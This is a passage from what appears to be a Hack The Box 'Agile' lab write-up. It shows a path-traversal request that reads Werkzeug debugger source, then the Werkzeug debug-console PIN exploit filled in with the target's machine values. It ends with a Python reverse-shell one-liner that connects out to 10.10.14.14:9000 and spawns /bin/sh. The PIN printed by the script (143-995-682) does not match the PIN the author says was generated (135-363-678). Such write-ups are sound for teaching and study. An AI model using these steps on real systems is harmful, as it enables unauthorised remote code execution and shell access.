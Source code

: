 To check the hashing algorithm, I can read `werkzeug/debug/__init__.py` file.

```shell
GET /download?fn=../app/venv/lib/python3.10/site-packages/werkzeug/debug/__init__.py HTTP/1.1
<SNIP>

===================================================

<SNIP>
def hash_pin(pin: str) -> str:
    return hashlib.sha1(f"{pin} added salt".encode("utf-8", "replace")).hexdigest()[:12]
<SNIP>
```

It's using `sha1` algorithm.

Now we've obtained all required values.
Let's edit the exploit code.

```python
probably_public_bits = [
    'www-data',  # username
    'flask.app',  # modname
    'wsgi_app',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/app/venv/lib/python3.10/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '345049924918',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'ed5b159560f54721827644bc9b220d00superpass.service'  # get_machine_id(), /etc/machine-id
]
```

After editing, I can run the code to generate PIN.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ python generate_pin.py                
143-995-682
```

The generated in is `135-363-678`.
Let's use this value to console.

![](attachments/agile_9.png)

Yeah, I can successfully obtain the python shell.

On this shell, I can use python based reverse shell code as follows;

`import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")`

